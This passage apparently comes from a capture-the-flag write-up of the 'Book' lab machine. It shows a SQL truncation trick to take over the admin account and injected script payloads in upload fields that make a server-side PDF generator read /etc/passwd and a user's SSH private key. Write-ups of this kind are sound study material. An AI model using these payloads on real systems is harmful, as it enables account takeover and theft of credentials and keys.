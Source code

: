 This will allow us to bypass the existing username check based on email because there's no username `admin@book.htb______1`. Right after this, the `INSERT` query strips the `1` because of the 20 character limit and truncates the rest of the whitespaces and insert `admin@book.htb` into the database with my chosen password (`letmein`). After some testing, the character limit of the `name` field was found to be 11 instead of 10. Sneaky!

Now let's see if we can log in to `/admin`.

{% include image.html image_alt="7472319b.png" image_src="/51943661-30c4-4833-a400-abdf98c127f7/7472319b.png" %}

I notice that I can't log in if I try it again at `/admin/index.php`. I have to re-insert the entry and then it works. Looks like some kind of database job is scheduled to aggressively remove the inserted entry from the database.

### SSRF attack

Here's where I found something interesting at the Collections page.

{% include image.html image_alt="47929bdc.png" image_src="/51943661-30c4-4833-a400-abdf98c127f7/47929bdc.png" %}

Opening the Collections PDF reveals something that looks like a generated PDF from a HTML.

{% include image.html image_alt="62aabed1.png" image_src="/51943661-30c4-4833-a400-abdf98c127f7/62aabed1.png" %}

With that in mind, let's upload something with a litte something extra peppered in the Title and the Author columns like so.

```
<script>
xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.write(this.responseText)
};
xhr.open("GET", "file:///etc/passwd");
xhr.send();
</script>
```

{% include image.html image_alt="897f87cc.png" image_src="/51943661-30c4-4833-a400-abdf98c127f7/897f87cc.png" %}

The PDF doesn't even have to be a real PDF :smiling_imp: Now, let's see what do we get.

{% include image.html image_alt="00eb7ad2.png" image_src="/51943661-30c4-4833-a400-abdf98c127f7/00eb7ad2.png" %}

## Low-Privilege Shell

Maybe we can grab hold of `reader`'s RSA private key with this little nugget?

```
<script>
xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.write(this.responseText)
};
xhr.open("GET", "file:///home/reader/.ssh/id_rsa");
xhr.send();
</script>
```
